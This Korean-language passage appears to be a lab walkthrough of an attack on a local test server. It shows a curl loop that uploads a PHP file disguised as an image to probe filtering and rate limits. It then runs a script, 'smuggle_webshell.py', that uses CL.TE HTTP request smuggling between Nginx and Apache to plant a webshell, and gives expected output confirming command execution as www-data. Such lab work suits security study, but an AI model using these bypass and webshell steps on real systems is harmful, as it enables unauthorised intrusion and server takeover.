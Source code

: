 ### 테스트 3: Rate Limit 확인

```bash
# 연속 5번 요청
for i in {1..5}; do
  curl -X POST http://localhost:9000/api/submit_inquiry.php \
    -F "name=test" \
    -F "email=test@test.com" \
    -F "phone=010-1234-5678" \
    -F "category=technical" \
    -F "subject=test" \
    -F "message=test" \
    -F "image=@innocent.php"
  echo ""
done
```

**예상 결과**:
```
요청 1-3: 403 Forbidden (코드 패턴 탐지)
요청 4-5: 429 Too Many Requests (Rate Limit)
```

---

## ✅ Step 3: Request Smuggling으로 우회

### 방법 1: Python 스크립트 (자동화)

앞서 만든 `smuggle_webshell.py` 그대로 사용:

```bash
python3 smuggle_webshell.py backdoor.php
```

**예상 결과**:
```
============================================================
  HTTP Request Smuggling - Webshell Upload
  CL.TE Attack (Nginx → Apache)
============================================================

[*] Target: localhost:9000
[*] Shell name: backdoor.php

[+] Smuggled request size: 687 bytes
[*] Connecting to server...
[+] Connected!

[*] Sending CL.TE smuggling payload...
[+] Payload sent!

[*] Waiting for response 1 (POST /)...
[+] Response 1 received (200 OK)

[*] Sending normal request to trigger smuggled payload...
[*] Waiting for response 2 (smuggled POST)...

[+] ✅ Webshell uploaded successfully!
[+] Webshell URL: http://localhost:9000/uploads/backdoor.php

[*] Testing webshell...
[+] ✅ Webshell is working!
[+] Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
